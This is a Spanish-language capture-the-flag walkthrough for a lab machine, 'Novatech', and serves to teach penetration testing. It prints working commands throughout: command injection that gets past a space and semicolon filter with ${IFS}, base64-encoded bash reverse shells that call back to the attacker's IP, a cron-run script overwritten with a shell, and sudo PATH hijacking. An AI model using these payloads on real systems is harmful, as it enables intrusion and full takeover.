







# Máquina Novatech

#### OS: Linux
#### Tier: Media
#### IP de ejemplo: 172.17.0.2

## Reconocimiento
comenzamos realizando un escaneo de puertos por tcp con `nmap`:
```
sudo nmap -sS -p- --open --min-rate 5000 -vvv -Pn -n 172.17.0.2
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

dos puertos, SSH en el puerto 22 y en el 80 http. Parece que en este último se está alojando una web. Al entrar vemos lo siguiente:



vemos la típica web estática hecha con IA, no hay nada aquí. Apliquemos fuzzing
```
❯ ffuf -c -ic -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://
172.17.0.2/FUZZ -t 100 -e .php,.html,.txt
```
```
index.php               [Status: 200, Size: 3390, Words: 702, Lines: 64, Duration: 2ms]
robots.txt              [Status: 200, Size: 64, Words: 4, Lines: 4, Duration: 0ms]
```
hay un robots.txt, interesante, veamos su contenido

```
❯ curl http://172.17.0.2/robots.txt
User-agent: *
Disallow: /dev_backup/
Disallow: /internal_tools/
```
se están filtrando dos rutas que no aparecen en los diccionarios. Vamos a acceder a /dev_backup/



el directory listing está habilitado, y vemos un único archivo, veamos su contenido



muy interesante, esto nos da varias cosas:

- una ruta de "test de conectividad":  /internal_tools/diagnostic.php
- un token de acceso: NovatechDiagnostics2026
- información de las medidas de seguridad implementadas: "filtro de seguridad estricto que elimina espacios y puntos y coma (...) para bloquear inyecciones de comandos" 

con esto en mente, vamos a entrar a la otra ruta, que nos redirige a la herramienta de la que se hablaba en estas notas privadas




vemos que no tenemos acceso, necesitamos un token. Por suerte lo tenemos.
Podemos probar a mandarlo como header con curl (-H "Token: NovatechDiagnostics2026") o via Caido/BurpSuite con POST. Sin embargo no da buenos resultados, así que vamos a adjuntarlo directamente a la URL desde el navegador
```
http://172.17.0.2/internal_tools/diagnostic.php?token=NovatechDiagnostics2026
```
y consegumos el acceso a un panel de hacer pings. Para probar su funcionamiento nos haremos un ping a nosotros mismos, y nos pondremos en escucha de trazas ICMP con `tcpdump` en la interfaz de docker

```
❯ sudo tcpdump -i docker0 icmp
```

entonces mandamos un ping a nuestra IP (172.17.0.1) y vemos la respuesta




vemos que efectivamente la máquina tiene conectividad. 
si tratamos de inyectar un comando con un punto y coma, `;`, el WAF nos bloquea

`Error de seguridad: Se detectaron caracteres no permitidos (espacios o punto y coma ';'). Solicitud rechazada.`

sin embargo en bash hay mil formas de ejecutar comandos, por ejemplo con &&
```
PING 172.17.0.1 (172.17.0.1) 56(84) bytes of data.
64 bytes from 172.17.0.1: icmp_seq=1 ttl=64 time=0.106 ms
64 bytes from 172.17.0.1: icmp_seq=2 ttl=64 time=0.131 ms

--- 172.17.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1018ms
rtt min/avg/max/mdev = 0.106/0.118/0.131/0.012 ms
www-data
```
ahí sí hemos ejecutado el comando. SIn embargo, al tratar de usar una reverse shell como `172.17.0.1&&bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'` nos da el error de antes, debido a los espacios. URL encodear el payload no sirve, hay que buscar otra manera. 

## Initial Infiltration

Para ejecutar la reverse shell usaremos un approach híbrido: base64 para el payload e ${IFS} para los espacios (siglas de Internal Field Separator, configurado como espacio), podemos comprobarlo para leer el /etc/passwd:



con eso construimos nuestra reverse shel en base64 y la servimos con ayuda de los IFS como espacios


```
❯ echo -n "bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'" | base64
```

`YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJw==`

Ahora construyamoslo entero, usando echo -n YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJw==|base64 -d|bash pero sin esos espacios, de la siguiente forma:
```
172.17.0.1&&echo${IFS}-n${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxJw==|base64${IFS}-d|bash
```

> Recuerda encodear tu reverse shell en cuestión del puerto e IP, no copies y pegues sin saber

pongámonos en escucha en el puerto 443 y mandemos el payload
```
❯ sudo nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 57828
bash: cannot set terminal process group (22): Inappropriate ioctl for device
bash: no job control in this shell
www-data@4e58a825ee42:/var/www/html/internal_tools$ 
```

## Lateral movement

Para estabilizar la shell y que no se rompa al hacer control + c podemos usar la siguiente secuencia de comandos:

```
script /dev/null -c bash
(verás "Script started, output log file is '/dev/null'.")
Ctrl + z
❯ stty raw -echo;fg
reset xterm
Enter
```

hay dos usuarios en /home: carlos y ubuntu. En el directorio de carlos encontramos una user.txt, legible como www-data (probablemente no intencionado). Tratamos de tocar las low hanging fruits (SUID, capabilities, sudo -l) pero ninguna funciona. Listemos archivos cuyo propietario sea carlos:

```
www-data@4e58a825ee42:/home/carlos$ find / -user carlos 2>/dev/null

/opt/scripts
/opt/scripts/psutil_helper.py
/opt/scripts/__pycache__
/opt/scripts/__pycache__/psutil_helper.cpython-312.pyc
/home/carlos
/home/carlos/.profile
/home/carlos/.bash_logout
/home/carlos/.bashrc
/home/carlos/.local
/home/carlos/user.txt
/tmp/uptime
/tmp/uptime.log
```
muchas cosas interesantes, sobre todo esos scripts de python bajo /opt/scripts. 

listando los permisos de psutil_helper.py tenemos la capacidad de modificarlo (eliminando el original e incluyendo un script propio con el mismo nombre). Así pues, si hay una tarea cron o alguien que lo ejecute se ejecutará nuestro código. 
Probemos a meter otra reverse shell, esta vez no son necesarios los bypasses pues ya se ejecuta dentro del contexto del sistema.

Dentro de /opt/scripts hay también un system_health.py, del que nosotros somos propietarios. Vamos a sobreescribir ese archivo con el siguiente código:
```
import os

os.system("echo -n YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzg0NDMgMD4mMSc=|base64 -d|bash")
```
> Este payload en base64 es el siguiente: bash -c 'bash -i >& /dev/tcp/172.17.0.1/8443 0>&1'. Recuerda usar el puerto de tu preferencia

tras unos veinte segundos recibimos una shell como carlos en nuestro listener
```
❯ nc -lvnp 8443
Listening on 0.0.0.0 8443
Connection received on 172.17.0.2 39756
carlos@4e58a825ee42:/opt/scripts$
```

## Privilege Escalation

probemos a ver si carlos tiene privilegios a nivel de sudoers:

```
User carlos may run the following commands on 4e58a825ee42:
    (ALL) NOPASSWD: /usr/local/bin/backup-manager
```
interesante, veamos a ver qué hace este script:

```
#!/bin/bash
echo "=================================================="
echo "[*] Novatech Automated Storage & Maintenance v1.2"
echo "=================================================="
echo "[+] Comprobando espacio en disco disponible..."
/bin/df -h /
echo ""
echo "[+] Sincronizando metricas de tiempo de actividad..."
# Vulnerabilidad (Dificultad 6.5): Llamada relativa a uptime sin /usr/bin/uptime
uptime
echo ""
echo "[+] Mantenimiento finalizado con exito."
```
se menciona directamente "# Vulnerabilidad (Dificultad 6.5): Llamada relativa a uptime sin /usr/bin/uptime". Esto es muy posiblemente algo que dejó la IA a propósito, con el sistema de dificultad que tuviera con el creador de la máquina. 
En fin, obviando ese detalle efectivamente se hace una llamada a uptime de forma relativa. Podemos aprovecharnos de un PATH Hijacking si creamos nuestro propio ejecutable uptime y exportamos el PATH de la forma que nos beneficia. Puedes ver más sobre este ataque en la máquina [oopsie](https://github.com/wh1t3w1s4/CTF-writeups/blob/main/HTB/Starting-Point/Tier%202/Oopsie.md), donde explico este ataque con mayor profundidad. 

creamos /tmp/uptime con el siguiente código: 

```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

> en mi caso reutilizo el puerto 443, pues la shell de www-data es inútil en este paso. Puedes usar cualquier otro puerto

le damos permisos de ejecución
```
chmod +x /tmp/uptime
```
y exportamos el PATH de la siguiente forma, para que /tmp quede delante del todo
```
export PATH=/tmp:$PATH
```
nos ponemos en escucha por el puerto que usamos en el script /tmp/uptime y ejecutamos como root /usr/local/bin/backup-manager
```
sudo /usr/local/bin/backup-manager
```
deberíamos recibir la shell como root en la terminal inmediatamente, eso es porque root, al ejecutar nuestro script y llamar a uptime, se referencia a nuestro uptime malicioso, disparando la reverse shell.
```
❯ sudo nc -lvnp 443
[sudo] contraseña para w1s4: 
Listening on 0.0.0.0 443
Connection received on 172.17.0.2 49288
root@306846156a8e:/opt/scripts# 
```
podemos leer la flag simbólica en /root/root.txt

### Resumen:

information leakeage -> Command Injection WAF bypass -> script overwrite -> PATH Hijacking
